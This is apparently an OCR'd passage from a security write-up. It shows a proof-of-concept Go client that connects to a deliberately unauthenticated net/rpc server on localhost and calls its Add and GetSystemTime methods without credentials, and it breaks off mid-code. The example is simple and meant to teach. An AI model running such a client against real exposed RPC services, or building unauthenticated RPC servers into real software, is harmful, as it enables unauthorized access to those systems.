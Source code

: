 ## Proof of Concept (PoC)

The following Proof of Concept demonstrates how an unauthenticated client can interact with a vulnerable `net/rpc` server in Go.

### Setup (Vulnerable Server - `server.go`)

Use the `Vulnerable Code Snippet` provided in the previous section. Save the code as `server.go`.
Compile and run the server on a target machine (e.g., `localhost` for local testing):

Bash

`go run server.go`

The server will output: `RPC server listening on 0.0.0.0:12345 without authentication...`

### Exploitation (Client - `client.go`)

Create a separate Go file, `client.go`, with the following content:

```go
package main

import (
	"fmt"
	"log"
	"net/rpc"
)

// Args matches the argument structure of the server's RPC methods.
type Args struct {
	A, B int
}

func main() {
	// Establish a connection to the unauthenticated RPC server.
	// No credentials or authentication headers are provided.
	// Replace "localhost:12345" with the target server's IP and port if running remotely.
	client, err := rpc.Dial("tcp", "localhost:12345")
	if err!= nil {
		log.Fatalf("Failed to dial RPC server: %v", err)
	}
	defer client.Close()

	log.Println("Successfully connected to the RPC server.")

	// --- Exploitation Goal 1: Unauthorized Function Execution (Add) ---
	fmt.Println("\n--- Attempting to call CalculatorService.Add without authentication ---")
	argsAdd := &Args{A: 10, B: 5}
	var replyAdd int
	err = client.Call("CalculatorService.Add", argsAdd, &replyAdd)
	if err!= nil {
		log.Printf("Error calling Add: %v", err)
	} else {
		fmt.Printf("Successfully called Add: %d + %d = %d\n", argsAdd.A, argsAdd.B, replyAdd)
	}

	// --- Exploitation Goal 2: Information Disclosure (GetSystemTime) ---
	fmt.Println("\n--- Attempting to call CalculatorService.GetSystemTime without authentication ---")
	var replyTime string
	err = client.Call("CalculatorService.GetSystemTime", &struct{}{}, &replyTime) // Empty struct for no args
	if err!= nil {
		log.Printf("Error calling GetSystemTime: %v", err)
```